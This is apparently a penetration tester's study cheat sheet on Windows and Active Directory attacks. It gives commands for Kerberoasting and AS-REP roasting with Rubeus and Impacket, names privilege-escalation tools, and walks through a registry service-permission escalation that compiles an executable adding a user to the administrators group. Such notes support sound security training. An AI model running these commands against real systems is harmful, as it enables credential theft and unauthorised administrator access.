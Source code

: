 #### Rubeus usage (local)
- `.\Rubeus.exe asreproast /nowrap` - Displays the vulnerable user and their AS-REP hash
- `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
	- Displays the vulnerable user and their TGS-REP hash (use bloodhound to see what they are worth)
	- This is the remote version, but you still need creds:
		- `Impacket-GetUserSPNs.py [DOMAIN]/[ACCT]:[PASSWD] -dc-ip [DCIP] -request`

#### Misc AD Techniques
Run GetNPUsers.py to ASREPROAST: `impacket-GetNPUsers $domainName/ -usersfile $user.txt -format $AS_REP_responses_format [hashcat | john] -outputfile $output.txt`
Run Bloodhound from attacker (rather than using Sharphound):
- `bloodhound-python -u $user -p '$password' -ns $ip -d domain.offsec -c all

### Other Techniques
#### TCM list of Automated Tools
Executables:
- **winPEAS.exe** - windows privilege escalation awesome script (check hacktrick bc it has the checklist)
- Seabelt.exe - has to be compiled (sln files open in Visual Studio)
- Watson.exe - has to be compiled (sln file)
- **SharpUp.exe**

PowerShell
- Sherlock.ps1 (predecessor to Watson)
- **PowerUp.ps1**
- jaws-enum.ps1 (jaws = just another windows script)

Other
- windows-exploit-suggester.py (local from attack machine)
	- requires `systeminfo` output from the machine
	- seems to be mostly kernel exploits
- Exploit Suggester (Metasploit)

#### Registry Escalation:
- `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` 
- `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
 - If either of these are set to 1, you can run any msi with elevated permissions.  Make an MSI and execute it.  
 - PowerUp checks for this. 
	 - Note that you may need to execute any file written after running the Abuse Function. 
	 - Can also just create a .msi with msf. 
 
#### Service Escalation - Registry (TCM)
Example for the regsvc service:
- Powershell on target: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
	-  take note if we have `NT AUTHORITY\INTERACTIVE Allow Full Contol` for this service. If we do we can make a malicious executable run a command. 
- create a malicious .c file and compile it: 
	- Example: 
	- take an existing file and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators $user /add`
	- `x86_64-w64-mingw32-gcc $exploit.c -o $exploit.exe`
	- this adds the $user to the administrators group
- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d $exploit.exe /f`
- `sc start regsvc`
